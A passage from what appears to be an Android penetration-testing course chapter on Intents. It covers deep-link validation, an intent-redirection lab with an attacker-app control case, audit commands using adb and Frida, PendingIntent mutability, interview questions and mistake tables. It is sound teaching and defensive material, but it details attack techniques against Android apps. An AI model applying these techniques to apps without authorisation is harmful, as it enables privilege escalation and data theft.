<activity android:name=".DeepLinkActivity" android:exported="true">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="https" android:host="app.example.com" android:pathPrefix="/open/"/>
    </intent-filter>
</activity>
```

```java
// RIGHT — validate the host, allow-list the route, never pass a URL through
Uri u = getIntent().getData();
if (u == null || !"https".equals(u.getScheme())
        || !"app.example.com".equals(u.getHost())) { finish(); return; }

String route = u.getLastPathSegment();
switch (route == null ? "" : route) {
    case "orders":   startActivity(new Intent(this, OrdersActivity.class));   break;
    case "profile":  startActivity(new Intent(this, ProfileActivity.class));  break;
    default:         startActivity(new Intent(this, HomeActivity.class));     break;
}
finish();
```

Then prove the `autoVerify` actually verified, because declaring it is not doing it (§3.11):

```bash
# host — API 31+
adb shell "pm get-app-links com.example.target"
# host — API 30 and below
adb shell "pm get-app-link com.example.target" && adb shell "dumpsys package domain-preferred-apps" | grep -A3 com.example.target
```

### 9.3 Advanced — the redirection deputy, its exploit, and its fix

The complete three-app-file set ships as
[`examples/deputy-app/`](examples/deputy-app/) (the victim) and
[`examples/attacker-app/`](examples/attacker-app/) (the exploit), with a
[`build.sh`](examples/deputy-app/build.sh) that produces both APKs with `aapt2` + `javac` + `d8` +
`apksigner` and no Gradle. Lab 01 walks the whole thing.

The victim's manifest is the finding:

```xml
<!-- examples/deputy-app/AndroidManifest.xml (excerpt) -->
<activity android:name=".RedirectorActivity" android:exported="true">
    <intent-filter>
        <action android:name="com.pentest.deputy.ROUTE"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>

<!-- NOT exported. Unreachable from another app... in theory. -->
<activity android:name=".SecretActivity" android:exported="false"/>
```

The vulnerable body is the four lines in §5.2. The exploit is the twelve lines in §5.2. The fix is
[`examples/RedirectorActivityFixed.java`](examples/RedirectorActivityFixed.java).

**The negative control matters as much as the exploit.** Before running the redirection, have the
attacker app try to start `SecretActivity` directly:

```java
// examples/attacker-app/ExploitActivity.java — the control case, run FIRST
try {
    Intent direct = new Intent();
    direct.setComponent(new ComponentName("com.pentest.deputy",
                                          "com.pentest.deputy.SecretActivity"));
    startActivity(direct);
    log("UNEXPECTED: direct start succeeded — the component is exported after all");
} catch (SecurityException e) {
    log("CONTROL OK — direct start denied: " + e.getMessage());
}
```

Expected in logcat:

```text
Permission Denial: starting Intent { cmp=com.pentest.deputy/.SecretActivity }
    from ProcessRecord{... com.pentest.attacker} (pid=..., uid=10xxx)
    not exported from uid 10yyy
```

Without that line in your report, a developer can reasonably claim your harness never worked.

### 9.4 Real application — auditing a shipped app's Intent surface

A realistic thirty-minute pass on an unknown APK, in order:

```bash
# host — 1. declaration audit first (chapter 32 owns this step)
python3 ../32-Manifest/scripts/manifest-audit.py work/AndroidManifest.xml --min-severity MEDIUM

# host — 2. runtime surface: what does the platform say is reachable?
python3 scripts/intent-surface-map.py --package com.example.target --components

# host — 3. probe every exported activity with an empty Intent and watch for crashes
python3 scripts/intent-surface-map.py --package com.example.target --probe --dry-run
#         then, on an authorised target, drop --dry-run

# host — 4. deep-link exclusivity
bash scripts/appstate-linkcheck.sh com.example.target

# host — 5. the code question
grep -rn -A3 'getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;' work/smali* \
  | grep -B1 'check-cast .*Landroid/content/Intent;'

# host — 6. runtime confirmation
frida -U -f com.example.target -l scripts/intent-monitor.js
```

A worked shape of what step 2 produces, using a genuinely-installed app on the measured device to
show the format:

```text
# measured — Redmi, Android 11 / API 30
$ python3 scripts/intent-surface-map.py --package com.miui.calculator --components --verify

==============================================================================
ACTIVITY filters
==============================================================================

com.miui.calculator/com.miui.calculator.cal.CalculatorActivity   filters=5  exported=true  permission=-
    filter bcc7ac9   [IMPLICIT-REACHABLE]
        action    android.intent.action.MAIN
        category  android.intent.category.DEFAULT
        category  android.intent.category.LAUNCHER
        category  android.intent.category.APP_CALCULATOR
        category  miui.intent.category.SYSAPP_TOOL
    filter ce793fc   [IMPLICIT-REACHABLE]
        action    com.miui.calculator.action.SCIENTIFIC_MODE
        category  android.intent.category.DEFAULT
    filter e98fa85   [IMPLICIT-REACHABLE]
        action    com.miui.calculator.action.CONVERT
        category  android.intent.category.DEFAULT
    filter 3efb5ce   [IMPLICIT-REACHABLE]
        action    mi.quicksearch.intent.action.RETRIEVE
        category  android.intent.category.DEFAULT
```

Three undocumented custom actions on a preinstalled calculator, all `DEFAULT`-categorised and
therefore implicitly startable by any app on the device. None is a vulnerability on its own — that
requires knowing what each one does — but all three are entry points that no manifest grep of the
*app you were hired to test* would ever have shown you.

The same run against a browser shows why the `--components` mode exists at all:

```text
# measured — Redmi, Android 11 / API 30
$ python3 scripts/intent-surface-map.py --package com.google.android.youtube --components
com.google.android.youtube/.UrlActivity   filters=6
    filter 44bda66   [IMPLICIT-REACHABLE, BROWSABLE (a web page reaches this),
                      autoVerify REQUESTED (state is NOT in this output)]
        action    android.intent.action.VIEW
        action    android.media.action.MEDIA_PLAY_FROM_SEARCH
        category  android.intent.category.DEFAULT
        category  android.intent.category.BROWSABLE
        data cross product (8 combinations):
            http://youtube.com.*[glob]
            http://www.youtube.com.*[glob]
            http://m.youtube.com.*[glob]
            http://youtu.be.*[glob]
            https://youtube.com.*[glob]
            https://www.youtube.com.*[glob]
            https://m.youtube.com.*[glob]
            https://youtu.be.*[glob]
        ^ these are SETS, not tuples. Test the combinations
          the developer did not intend. README section 3.4.
```

Two schemes and four hosts in one filter, written as separate `<data>` elements, producing eight
accepted combinations. The tool computes that cross product for you because it is the step everybody
skips.

### 9.5 Enterprise application — an Intent-based integration done properly

The pattern below is what a bank's app and its companion authenticator app should look like when they
must exchange data over Intents. Every mechanism from §3.8 appears.

```xml
<!-- Bank app manifest — a signature permission is the only real caller control -->
<permission android:name="com.bank.permission.AUTH_BRIDGE"
            android:protectionLevel="signature"/>

<activity android:name=".AuthBridgeActivity"
          android:exported="true"
          android:permission="com.bank.permission.AUTH_BRIDGE"
          android:excludeFromRecents="true"
          android:noHistory="true"/>

<service android:name=".AuthBridgeService"
         android:exported="true"
         android:permission="com.bank.permission.AUTH_BRIDGE"/>
```

```java
// examples/caller-identity-patterns.java — the enterprise shape, all three tiers used correctly
public class AuthBridgeActivity extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);

        // TIER 2 — system-stamped. Null unless started for result: fail closed.
        ComponentName caller = getCallingActivity();
        if (caller == null) { setResult(RESULT_CANCELED); finish(); return; }

        // Bind the package NAME to a signing certificate. Names alone are not identities.
        if (!SignatureVerifier.matchesOurKey(this, caller.getPackageName())) {
            setResult(RESULT_CANCELED); finish(); return;
        }

        // TIER 3 — everything in the Intent is attacker-authored. Validate as untrusted input.
        String op = getIntent().getStringExtra("op");
        if (!"challenge".equals(op)) { setResult(RESULT_CANCELED); finish(); return; }

        // Never return a bearer token to a caller identified only by an Intent.
        // Return a short-lived, audience-bound, single-use challenge response.
        Intent result = new Intent();
        result.putExtra("response", Challenge.signFor(caller.getPackageName()));
        setResult(RESULT_OK, result);
        finish();
    }
}
```

```java
// The strong variant: put the operation behind a bound Service, and read the
// kernel-stamped uid. This is the only place on the Intent path with a real identity.
public class AuthBridgeService extends Service {
    private final IAuthBridge.Stub mBinder = new IAuthBridge.Stub() {
        @Override public String challenge(String nonce) {
            int uid = Binder.getCallingUid();                  // unforgeable
            String[] pkgs = getPackageManager().getPackagesForUid(uid);
            if (pkgs == null || !SignatureVerifier.allMatchOurKey(AuthBridgeService.this, pkgs)) {
                throw new SecurityException("uid " + uid + " is not a trusted companion");
            }
            return Challenge.sign(nonce, uid);
        }
    };
    @Override public IBinder onBind(Intent i) { return mBinder; }
}
```

| Control used | Tier | What it stops |
|---|---|---|
| `protectionLevel="signature"` on the component | Platform-enforced | Any app not signed by the bank's key, before a line of app code runs |
| `getCallingActivity()` + signature check | System-stamped | A same-key app calling the wrong way round; a plain `startActivity` with no result channel |
| `Binder.getCallingUid()` in the Service | Kernel-stamped | Everything. This is the strong control |
| Never returning a long-lived token | Design | Turns a successful bypass into a bounded one |
| `noHistory` + `excludeFromRecents` | Hygiene | The screen surviving in Recents where a screenshot can be taken |

---

## 10. Common Interview Questions

### Beginner

**Q. What is an Intent?**
A passive message object describing an operation. It carries an action, optional data URI and MIME
type, categories, an optional explicit component, flags and a bag of extras. It does nothing until
passed to `startActivity`, `startService`, `bindService` or `sendBroadcast`.

**Q. What is the difference between an explicit and an implicit Intent?**
An explicit Intent names the target component, so no matching happens. An implicit Intent names only
what it wants done, and the system resolves it against every installed app's `<intent-filter>`
declarations. Only implicit Intents can be intercepted by another app.

**Q. What is the difference between an action and a category?**
The action names *what* to do (`ACTION_VIEW`, `ACTION_SEND`). A category adds *qualifying context*
about how the component will be used (`CATEGORY_LAUNCHER` means "show me in the app drawer",
`CATEGORY_BROWSABLE` means "a web browser may start me"). Mechanically they also differ in matching:
an Intent has **one** action and the filter must list it; an Intent has **zero or more** categories
and the filter must list **all** of them.

**Q. Why does my implicit Intent open a chooser?**
Because more than one component matched, and no default was set. Confirm with
`adb shell "cmd package query-activities -a <action> -d <uri>"`. Setting a default via
`Intent.createChooser` is a deliberate design choice; a chooser appearing when you did not expect one
means you are competing with another app for the same filter.

**Q. What is `CATEGORY_DEFAULT` for?**
`startActivity` and `startActivityForResult` silently add it to implicit Intents. An Activity filter
that does not declare it can never be reached implicitly. It exists so that a component can declare a
filter for *reference* purposes (for example a `LAUNCHER` entry) without becoming a generic implicit
target.

### Intermediate

**Q. Walk through the resolution algorithm.**
Three tests, all must pass. **Action:** if the Intent's action is non-null the filter must list it; a
null action passes. **Category:** every category on the Intent must appear on the filter; extras on
the filter are ignored. **Data:** the URI's scheme, host, port and path are matched against the
filter's independent sets, and the MIME type against the filter's type set, with `type/*` and `*/*`
wildcards honoured in both directions. On success `match()` returns a `MATCH_CATEGORY_*` value
describing how specifically it matched, which the resolver sorts on.

**Q. How do multiple `<data>` elements in one filter combine?**
Not as tuples. Each `<data>` contributes its attributes into independent sets — schemes, authorities,
paths, MIME types — and matching tests each set separately. Two `<data>` elements declaring
`https://a.com` and `myapp://b.com` produce a filter that also accepts `myapp://a.com` and
`https://b.com`. You can see this directly in `dumpsys package <pkg>`, which prints the flat lists.

**Q. What does `android:exported` actually change?**
It changes one comparison inside `ActivityStarter` in `system_server`: when the target is not
exported, the start is refused unless `Binder.getCallingUid()` equals the target application's UID.
It has no effect on same-UID callers, no effect on the app itself, and no effect on matching — an
unexported component with a rich `<intent-filter>` still appears in resolver tables, it just cannot
be started across a UID boundary.

**Q. Can I see who sent me an Intent?**
Almost never. `getCallingActivity()` works only when the caller used `startActivityForResult`.
`getReferrer()` and `EXTRA_REFERRER` are caller-supplied and forgeable. `Binder.getCallingUid()`
inside `onCreate` or `onReceive` returns *your own* UID, because the delivery is a separate
transaction originating from `system_server`. The reliable answers are: a `signature`-level
permission on the component, a bound Service where `Binder.getCallingUid()` is live, or a
`PendingIntent` whose `getCreatorUid()` the system fills in.

**Q. Why did my deep link stop working after I installed a second app?**
Because a custom scheme has no owner. The second app declared the same filter, both matched, and
either a chooser appeared or the system/user preference now favours the other app. `dumpsys package
domain-preferred-apps` (API ≤30) or `pm get-app-links` (API 31+) shows the state; the fix is a
verified App Link.

### Senior

**Q. Explain intent redirection, and why it is a privilege escalation rather than just a routing bug.**
An exported component takes an Intent (or an `intent:` string) out of the message it received, and
sends it. The send is performed by the *victim's* process, so `Binder.getCallingUid()` inside
`system_server` is now the victim's UID. Every check that would have blocked the attacker —
`exported=false` on the victim's other components, permissions the victim holds and the attacker does
not, URI grants the victim can issue — is evaluated against the victim's identity. The attacker has
not compromised the victim; they have borrowed it.

**Q. What exactly does a mutable `PendingIntent` give an attacker?**
The ability to supply a fill-in Intent that is merged into the wrapped Intent before the system fires
it as the creator. `Intent.fillIn` copies a field only when the base field is unset, so the severity
is a function of what the creator left blank. A blank component means the attacker chooses the
target, including non-exported components of the creator. A set component but blank data means the
attacker can attach a `content://` URI plus `FLAG_GRANT_READ_URI_PERMISSION` and have the creator
issue the grant. Immutable means the fill-in is discarded.

**Q. Why did Android make `FLAG_IMMUTABLE`/`FLAG_MUTABLE` mandatory at API 31?**
Because the default was mutable and mutable-plus-blank was the single most common shape of the bug.
Making the parameter mandatory does not make anything safe — it makes the decision *explicit*, so it
appears in code review and in a grep. As a tester, that changes your job: on a `targetSdk >= 31` app
every `FLAG_MUTABLE` is a decision somebody made, and each one deserves the three-question test.

**Q. An app declares `android:autoVerify="true"`. Is its deep link exclusive?**
Unknown from the APK. `autoVerify` is a request to verify, and verification happens at install time
over the network against `https://<host>/.well-known/assetlinks.json`. It fails routinely — missing
file, HTTP redirect, wrong package name for a build flavour, or a fingerprint taken from the debug
certificate rather than the Play-signed release. You must measure it on a device, and the command
differs by platform version: `pm get-app-links` on API 31+, `pm get-app-link` plus
`dumpsys package domain-preferred-apps` on API 30 and below.

**Q. When is an exported activity that accepts an implicit Intent *not* a finding?**
When it is not reachable by an unprivileged app (signature-level permission, or reachable only from
`adb shell`'s elevated position), or when what it does with the Intent has no security consequence.
"Exported" is a precondition. The finding requires a proven reachability path from an ordinary app
plus a demonstrated consequence.

### Staff Engineer

**Q. Design a cross-app API for a companion app, and justify each control.**
Prefer a bound `Service` with an AIDL interface, protected by a `signature`-level permission, with
`Binder.getCallingUid()` checked inside every transaction and mapped to a signing certificate via
`PackageManager`. Rationale: the permission is enforced by `system_server` before your code runs and
requires the attacker to obtain your signing key; the UID check is kernel-stamped and survives package
renames; the certificate mapping survives an attacker installing an app with your package name on a
device you do not control. Use Intents only for user-visible hand-offs, and when you must, use
`startActivityForResult` so `getCallingActivity()` is available, plus the same certificate check.

**Q. You must accept an Intent from an untrusted caller and forward it. How?**
Do not forward the object. Extract the *minimum* information you need — usually a route identifier,
not an Intent — and construct a fresh Intent yourself from a closed allow-list. If you truly must
forward, resolve the component, verify the package is yours, verify the class is on an explicit
allow-list, strip every `FLAG_GRANT_*` and `FLAG_ACTIVITY_FORWARD_RESULT`, re-set the component
explicitly, and forward the object you validated rather than re-reading the extra.

**Q. How would you find every intent-redirection bug across a 200-app estate?**
Pull all APKs, `apktool` each, then grep the smali for the two-instruction
`getParcelableExtra(…)Landroid/os/Parcelable;` followed by `check-cast …Landroid/content/Intent;`
pattern — obfuscation-resistant because framework signatures cannot be renamed. Cross-reference the
containing class against the parsed manifest's exported components with no permission or a
`normal`-level one. Then triage dynamically with a Frida taint hook that flags an Intent read from an
extra and later started. Finally, prove reachability with a parameterised attacker APK, not
`adb shell`.

**Q. Where does package visibility filtering change your analysis?**
From `targetSdk` 30, an app's own `queryIntentActivities` returns a filtered list, but your
`adb shell cmd package query-activities` does not. So a device-wide resolution result is the
*platform's* view, not the app's. Before claiming app A can send to app B, check A's `<queries>`
declaration. Conversely, an app declaring `QUERY_ALL_PACKAGES` has deliberately opted out of the
filtering, which is itself worth a line in the report.

### Principal Engineer

**Q. Argue for or against Android's decision not to stamp caller identity into Intents.**
For: an Intent is a *message*, and a message system whose every message carried a verified sender
would prevent legitimate indirection — the notification shade, `PendingIntent`, chooser dialogs,
`FLAG_ACTIVITY_FORWARD_RESULT`, and every trampoline pattern. Attribution would also leak which app
is talking to which, a privacy problem in itself. Against: the absence pushes every app into
reinventing authorisation, badly, and the platform's own answer — permissions — is coarse and
signature-scoped. The pragmatic verdict is that the design is right for the message layer and wrong
for the *API* layer, which is why the correct pattern for a cross-app API is a bound Service, where
Binder does stamp identity. The `PendingIntent` creator fields show the platform knows how to stamp
identity when it wants to.

**Q. Evaluate the API 31 `PendingIntent` mandate as a security intervention.**
It converts an unsafe default into a compile-time decision. That is close to the strongest
intervention a platform can make without breaking apps, because it reaches every developer including
those who have never heard of the bug. Its limit is that it cannot distinguish a *correct* mutable
`PendingIntent` (explicit component, `RemoteInput` reply) from an incorrect one, so the observed
outcome is a large number of `FLAG_MUTABLE` annotations added mechanically to make the build pass.
The follow-up in API 34 — blocking mutable implicit `PendingIntent`s to non-exported components — is
the more surgical fix, and its existence is evidence that 31's mandate did not close the class.

**Q. You own platform security for an OEM. Rank the Intent hardening you would ship.**
1. Refuse to install apps whose exported components lack an explicit `exported` attribute (already
   done at 31) and extend the same explicitness requirement to `<queries>`.
2. Make forwarding observable: a system-level signal when an app starts an Intent it received in an
   extra, exposed to app-review tooling. The primitive is undetectable in the platform today and
   trivially detectable with a taint bit.
3. Deprecate custom-scheme deep links for anything reachable from `BROWSABLE`, forcing verified App
   Links for web-reachable entry points.
4. Extend `PendingIntent` creator attribution into the *receiving* side of ordinary Intents — an
   optional, system-stamped `EXTRA_CALLER_UID` that the platform, not the sender, writes.
   Ordering matters: (1) and (2) are cheap and compatible; (3) breaks apps; (4) is a privacy
   trade-off that needs a policy decision, not just an engineering one.

**Q. A researcher reports "exported activity" on 40 of your apps. How do you triage at scale?**
Reject the class as a finding and ask for the two answers from §5.2: a reachability proof from an
unprivileged app, and a demonstrated consequence. Build the triage pipeline around those two: an
automated harness that installs a generic attacker APK, fires an empty Intent at each exported
component, and records crash-versus-no-crash and state change; and a static pass for the
redirection/`PendingIntent`/WebView sinks. Anything that fails both filters is documentation, not a
vulnerability. Publish the criteria so the next report arrives with the evidence attached.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| Mistake | Consequence | Fix |
|---|---|---|
| Forwarding an Intent taken from an extra | Intent redirection — the attacker borrows your UID | §5.2's validation, or do not forward objects at all |
| `PendingIntent` with no flags on `targetSdk <= 30` | Mutable by default; a blank cheque | `FLAG_IMMUTABLE` |
| Adding `FLAG_MUTABLE` to make an API-31 build compile | The bug is unchanged and now looks deliberate | Choose `FLAG_IMMUTABLE` unless `RemoteInput` requires otherwise |
| `sendBroadcast` with a secret in an extra | Every matching receiver on the device gets it | `setPackage(getPackageName())`, or a `signature` permission |
| Believing `getReferrer()` identifies the caller | Authorisation on forgeable data | `getCallingActivity()` + signature check, or a bound Service |
| `Binder.getCallingUid()` in `onCreate`/`onReceive` | Returns your own UID; the check always passes | Move the operation to a bound Service |
| Omitting `CATEGORY_DEFAULT` and wondering why the deep link fails | Component unreachable implicitly | Add it — or realise you did not want it reachable and say so |
| `android:host="*"` or `mimeType="*/*"` on an exported component | Accepts anything from anyone | Name the hosts and types |
| `autoVerify="true"` with no deployed `assetlinks.json` | The link is an ordinary deep link; competitors can register it | Deploy the file, then verify with `pm get-app-links` |
| A `pathPrefix` where a `path` was meant | `/open` also matches `/openredirect` | Use `path`, or `pathAdvancedPattern` with an anchor |
| Reading `pathPattern` as a regex | The filter matches far more or far less than intended | It is a glob: `*` repeats the preceding character |
| Not reading the merged manifest | SDK-injected exported components you have never seen | `app/build/outputs/logs/manifest-merger-*-report.txt` |
| `setData` then `setType` | Data silently nulled; resolution fails | `setDataAndType` |

### 11.2 Pentester mistakes

| Mistake | Why it burns you |
|---|---|
| **Testing reachability from `adb shell`** | UID 2000 is privileged. The developer will demonstrate that a real app is refused, and your finding dies. Always build the attacker APK. |
| Reporting "exported component" as a finding | It is a precondition. Answer reachability *and* consequence. |
| Trying to demonstrate Parcelable-flavour redirection with `am` | Impossible — `am` has no Parcelable extra and `Intent.parseUri` cannot nest an Intent. You will demonstrate the string flavour and describe it as the other. |
| Forgetting the inner quotes on `adb shell` | `*/*` gets glob-expanded, `;` splits the command, and the failure looks like a resolution failure. Both reproduced in §3.4 and §3.10. |
| Reading `autoVerify="true"` and concluding the link is exclusive | It is a request, not a state. Measure it. |
| Using `pm get-app-links` on Android 11 | The command does not exist there. Measured. Use `pm get-app-link` and `dumpsys package domain-preferred-apps`. |
| Assuming the app can see what your shell can see | Package visibility filtering, API 30+. §7.7. |
| Testing only manifest-declared receivers | Dynamically registered receivers are invisible in the manifest. Hook `registerReceiver`. |
| Ignoring `<activity-alias>` | An alias has its own `exported` and `permission`. [32-Manifest](../32-Manifest/README.md) §3.6. |
| Not running the negative control | Without a demonstrated `Permission Denial`, nobody can tell whether your harness works. |
| Treating a crash as the end | An NPE means the component accepted your Intent and dereferenced your value. That is the *start* of a finding. |

### 11.3 Reverse engineer mistakes

| Mistake | Why it burns you |
|---|---|
| Decoding flag integers in the wrong namespace | `67108864` is `FLAG_IMMUTABLE` for a `PendingIntent` and `FLAG_ACTIVITY_CLEAR_TOP` for an Intent |
| Searching for your own class names in an obfuscated app | Framework names survive; yours do not. Search for `Landroid/content/Intent;->getParcelableExtra` |
| Missing the `check-cast` | `getParcelableExtra` returns `Parcelable`; the cast to `Intent` is the signature and is easy to skip past |
| Missing the API-33 typed overload | `getParcelableExtra(String, Class)` has a different descriptor. Grep for both |
| Reading the APK's manifest rather than the platform's tables | `dumpsys package <pkg>` shows the merged, parsed, resource-resolved truth |
| Assuming a filter means the component is reached that way | Explicit starts bypass filters entirely; many filtered components are only ever started explicitly |
| Assuming no filter means unreachable | An exported component with no filter is reachable explicitly by any app that knows its name — and the name is in the manifest |
| Trusting string constants after a packer | String encryption hides extra keys; recover them at runtime with the Frida monitor instead |

---

## 12. Hands-on Labs

Four labs, increasing in difficulty, ending in a CTF as this repository does throughout. Each is a
standalone markdown file under [`labs/`](labs/).

| Lab | Title | Difficulty | What you prove |
|---|---|---|---|
| 01 | [Intent redirection — build the deputy, build the exploit, write the fix](labs/lab-01-intent-redirection.md) | Intermediate → Advanced | That a non-exported component can be started by an unprivileged app through a forwarding deputy, with a negative control, and that the fix in §5.2 actually blocks it |
| 02 | [Resolution forensics — predict, then measure](labs/lab-02-resolution-forensics.md) | Beginner → Intermediate | That you can predict the winning component and the `match` value for an arbitrary Intent before running it, including the multi-`<data>` cross product |
| 03 | [App Links verification state on a real device](labs/lab-03-applink-verification.md) | Intermediate | That you can determine, on any Android version, whether a declared App Link is actually exclusive — and produce the evidence a developer will accept |
| 04 | [CTF — The Courier](labs/lab-04-ctf-the-courier.md) | Advanced | Four flags across resolution, redirection, `PendingIntent` mutability and a deep-link cross product |

> **⚠️ Warning — read this before starting**
> The labs ship **source only**. There is no APK in this repository and there never will be. Each lab
> that needs an app includes a `build.sh` that produces it from `aapt2`, `javac`, `d8`, `zipalign`
> and `apksigner` — no Gradle, no network access, no wrapper download. Run these only against
> applications and devices you own or are authorised to test.
>
> Some MIUI, ColorOS and OneUI builds block `adb install` (§7.6, measured). If yours does, use an
> emulator: `emulator -avd <name>` from the Android SDK, or any AOSP-based device.

---

## 13. Summary

### 13.1 Key points

- An **Intent** is a passive message with twelve fields. It becomes an operation only when handed to
  `startActivity`, `startService`, `bindService` or `sendBroadcast`.
- **Explicit** (component set) skips matching entirely. **Implicit** goes through the resolver and can
  be intercepted. `setPackage()` is the middle ground and is the cheapest fix for most bugs.
- **Resolution is three tests**: action (filter must list the Intent's action, unless it is null),
  category (filter must contain **every** category on the Intent), data (independent sets for scheme,
  authority, path and MIME type, with wildcards honoured in both directions).
- **Multiple `<data>` elements form a cross product**, not tuples. Measured on a device via
  `dumpsys package com.android.chrome`.
- **`CATEGORY_DEFAULT` is added by `startActivity`** for implicit Intents, so a filter without it is
  unreachable implicitly. This breaks more tests than any other single rule.
- The match value the resolver sorts on is printable: `0x108000` empty, `0x208000` scheme,
  `0x508000` path, `0x608000` type. All four measured.
- **Caller identity is not carried on an Intent.** Binder stamps it; Intents do not. The only strong
  answers are a `signature` permission, a bound Service's `Binder.getCallingUid()`, or a
  `PendingIntent`'s `getCreatorUid()`.
- **Intent redirection** is a component that starts an Intent it received. The send runs as the
  victim's UID, so the victim's non-exported components, permissions and grants become reachable.
  Two flavours: `Parcelable` (needs an attacker app) and string/URI (reachable from a web page).
- **A mutable `PendingIntent` is a blank cheque signed with your UID.** `FLAG_IMMUTABLE`, mandatory
  to state from API 31, is the fix; a set component limits the damage when mutability is required.
- **`autoVerify="true"` is a request, not a state.** Measure verification on the device, with the
  command that exists on that platform version.
- **Severity requires reachability plus consequence.** `adb shell` is UID 2000 and proves neither.

### 13.2 Mind map



### 13.3 Condensed cheat sheet

| Question | Command / rule |
|---|---|
| Who can receive this Intent? | `adb shell "cmd package query-activities -a ACT -d 'URI'"` |
| Who *wins*? | `adb shell "pm resolve-activity --brief -a ACT -d 'URI'"` |
| What did the app declare? | `adb shell "dumpsys package PKG"` — Activity/Receiver/Service Resolver Tables |
| Is the deep link exclusive? | `pm get-app-links PKG` (31+) · `pm get-app-link PKG` + `dumpsys package domain-preferred-apps` (≤30) |
| Fire an Intent | `adb shell "am start -a ACT -c CAT -d 'URI' --es k v -n PKG/CLS"` |
| Why did it fail? | `adb logcat \| grep -E 'Permission Denial\|ActivityNotFound\|SecurityException'` |
| Find redirection statically | `grep -A3 'getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;' \| grep check-cast` |
| Find redirection dynamically | `frida -U -f PKG -l scripts/intent-monitor.js` |
| Find mutable `PendingIntent` | `grep -rn 'PendingIntent\.get' out/sources/ \| grep -v FLAG_IMMUTABLE` |
| Implicit Intent needs… | `CATEGORY_DEFAULT` on the filter, for Activities |
| Multiple `<data>` means… | Cross product of every scheme × host × path × type |
| Match value `0x508000` means… | Matched on path |
| Caller identity is… | Absent, unless `startActivityForResult`, a bound Service, or a `PendingIntent` |

### 13.4 Quick revision

- An Intent is a message, not a call. Twelve fields. Nothing happens until it is sent.
- `mComponent` non-null means explicit means no matching.
- Action test: null action always passes; otherwise the filter must list it.
- Category test: **every** category on the Intent must be on the filter. Not the reverse.
- `startActivity` adds `CATEGORY_DEFAULT` to implicit Intents.
- `<data>` attributes go into independent sets. Cross product, not tuples.
- `setData` clears the type; `setType` clears the data; `setDataAndType` sets both.
- Wildcards work from both sides: `text/*` matches `text/plain` and vice versa.
- `match` values: empty `0x1`, scheme `0x2`, host `0x3`, port `0x4`, path `0x5`, type `0x6` — times
  `0x100000`, plus `0x8000`.
- Binder stamps caller identity. Intents do not.
- `getCallingActivity()` is null unless the caller used `startActivityForResult`.
- `Binder.getCallingUid()` in `onCreate` returns *your* UID.
- Intent redirection: an exported component starts an Intent it received, as its own UID.
- Parcelable-flavour redirection cannot be triggered from `am`. String-flavour can, and from the web.
- Fix redirection by resolving, allow-listing the class, stripping `FLAG_GRANT_*` and
  `FLAG_ACTIVITY_FORWARD_RESULT`, and re-setting the component.
- A mutable `PendingIntent` with a blank component lets an attacker pick the target and fire it as you.
- `FLAG_IMMUTABLE` or `FLAG_MUTABLE` is mandatory to state from `targetSdk` 31.
- `autoVerify="true"` is a request. Verification is a state. Measure it.
- `pm get-app-links` needs API 31+. Below that, `pm get-app-link` and
  `dumpsys package domain-preferred-apps`.
- `adb shell` is UID 2000 and proves nothing about an app's reachability.
- Every finding needs reachability **and** consequence.

---

## 14. References

Annotated links and a related-chapters table are in [`references/README.md`](references/README.md).
The essentials:

### AOSP source

- `frameworks/base/core/java/android/content/Intent.java` — the message object, every flag constant,
  `fillIn`, `parseUri`/`toUri`, `prepareToLeaveProcess`.
- `frameworks/base/core/java/android/content/IntentFilter.java` — `match`, `matchAction`,
  `matchCategories`, `matchData`, `findMimeType`, and the `MATCH_*` constants.
- `frameworks/base/core/java/android/app/PendingIntent.java` — creation, flags,
  `getCreatorUid`/`getCreatorPackage`.
- `frameworks/base/services/core/java/com/android/server/IntentResolver.java` — the bucketed filter
  index that `dumpsys package` prints.
- `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` — the export and
  permission checks.
- `frameworks/base/services/core/java/com/android/server/pm/verify/domain/` — App Links verification
  (API 31+).

### Official documentation

- Android Developers — *Intents and Intent Filters*, and its "Intent resolution" subsection.
- Android Developers — *Verify Android App Links*, and *Handling Android App Links*.
- Android Developers — *Android 12 behaviour changes: pending intent mutability*.
- Android Developers — *Security tips: Intents and intent filters*.
- Digital Asset Links protocol — the specification behind `assetlinks.json`.

### OWASP

- MASVS-PLATFORM-1, MASVS-PLATFORM-3, MASVS-CODE-4.
- MASTG — the IPC and deep-link test procedures.

### Related chapters

| Chapter | Relationship |
|---|---|
| [24-IPC](../24-IPC/README.md) | Where Intents sit among Android's IPC mechanisms |
| [25-Binder](../25-Binder/README.md) | Kernel-stamped caller identity, the contrast this chapter draws |
| [27-ContentProviders](../27-ContentProviders/README.md) | What a laundered URI grant steals |
| [32-Manifest](../32-Manifest/README.md) | `<intent-filter>` as a declaration; the export matrix; `manifest-audit.py` |
| [45-OAuth](../45-OAuth/README.md) | Scheme hijacking against an OAuth redirect, staged as a lab |
| [23-Permissions](../23-Permissions/README.md) | `protectionLevel`, and why a `normal` permission is not a control |
| [21-App-Sandbox](../21-App-Sandbox/README.md) | The UID boundary that `exported` is checked against |


